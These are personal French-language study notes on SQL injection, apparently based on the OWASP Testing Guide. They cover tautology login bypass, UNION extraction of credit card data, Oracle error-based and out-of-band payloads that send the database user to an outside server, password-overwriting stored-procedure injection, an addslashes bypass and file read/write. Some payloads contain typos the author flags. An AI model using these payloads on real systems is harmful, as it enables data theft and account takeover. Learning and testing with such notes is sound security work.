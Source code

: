 # SQL Injection

## Standard Exploitation

Ecrire `‘or ‘1’ = ‘1`

```sql
# Transform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# To that : 
SELECT * FROM Users WHERE Username=’admin’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Penser à utiliser `LIMIT` si besoin
* On peut aussi utiliser des commentaires au lieu de reformer la string `or 1=1 --`  \(be mindful of the last space\) ou `or 1=1#`
* Stacker des requêtes en terminant la 1ère avec un `;` \(impossible si la requête est dans une fonction la préparant, et non-géré par certains systèmes de db\) : `http://www.example.com/product.php?id=10; INSERT INTO users (…)` 

## Union Exploitation

Étendre une requête SELECT avec un `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# To that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* `ALL` est utilisé pour contrecarrer `DISTINCT`
* On rajoute `1, 1` car il faut le même nombre de colonnes que le `SELECT` de base. 
  * Pour déterminer le nombre adéquat, on peut faire un `http://www.example.com/product.php?id=10 ORDER BY 10--` qui retournera soit une erreur, soit quelque chose s’il y a effectivement 10 colonnes.
* En occurrence c’est des int \(donc `1, 1`\), mais il faut que ces colonnes match aussi le types.
  * Pour ça, on peut tester en mettant d’abord null, puis en changeant le genre de données et en vérifiant l’erreur.
* Si seul le premier résultat est montré \(et donc celui de la requête véridique\), on peut fournir un id invalide, comme ça c’est le résultat de notre union qui sera remonté.

## Error Based Exploitation

Avec oracle, ce genre de payload :

```sql
|| UTL_INADDR. GET_HOST_NAME((SELECT user FROM DUAL)) --
```

Retourne ce type d'erreur : `ORA-292257: host SCOTT unknown` révélant ainsi le user.

{% hint style="info" %}
Chercher la syntaxe pour les différents DMBS
{% endhint %}

## Out of band exploitation

Avec oracle : 

```sql
|| UTL_HTTP. request(‘testerserver.com:80’ || (SELET user FROM DUAL) --
```

{% hint style="info" %}
Il manque pas une \) ? Et regarder la syntaxe pour les autres DBMS
{% endhint %}

## Stored Procedure Injection

Apparemment il existe ce genre de syntaxe :

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

Que l’on pourrait abuser avec ce genre d’input :`1 from users; update users set password = ‘password’; select *`

Mais je connais pas cette syntaxe donc je comprends pas trop.

## Insider Info

If you have an injection in a place where doing an "or 1=1" isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command.

## MySQL Server Specificity

Disclaimer : y’a la même pour PL/SQL Server, Microsoft SQL Server, PostGre SQL, Miscrosoft Access et NoSQL mais vu que je les connais pas et que ça m’intéresse pas dans l’immédiat, je l’ai pas détaillé.

Fonctionnalités permettant des injections par version \(depuis y’a probablement eu de nouvelles versions\)

* From Version 4.0: UNION 
* From Version 4.1: Subqueries 
* From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION\_SCHEMA 
* From Version 5.0.2: Triggers

### Single Quote Escape

MySQL permet d’escape les ', ce qui peut annuler certaines attaques quand ce n’est pas possible de contourner l’utilisation des '.

Mais dans certains cas on peut le contourner ainsi :

`password LIKE 'A%'` -&gt; `password LIKE 0x4125` -&gt; `password LIKE CHAR(65,37)`

If the db use the GBK charset \(simplified chinese\) and not the application, using `\xBF'` \(URL-encoded as `%bf%27`\) will prevent `addslashes` \(php function\) from correctly escaping the quote. \(Explained [here](http://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string)\)

### Lecture / Ecriture

* On peut écrire dans une fichier avec `into outfile 'path'` \(on ne peut pas contourner les ' ' donc s’ils sont escape, ça ne marche pas\).
* On peut lire avec `load_file(‘name’)`

### Autre

* On ne peut pas accumuler les requêtes \(donc utiliser le `;` pour en commencer une nouvelle\).
* Y’a 2 genres d’utilisateurs `USER()` et `CURRENT_USER()` mais je suis pas sûr des subtilités.
* Comments : `--` \(The space is important\) ou `#`

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* Misc research

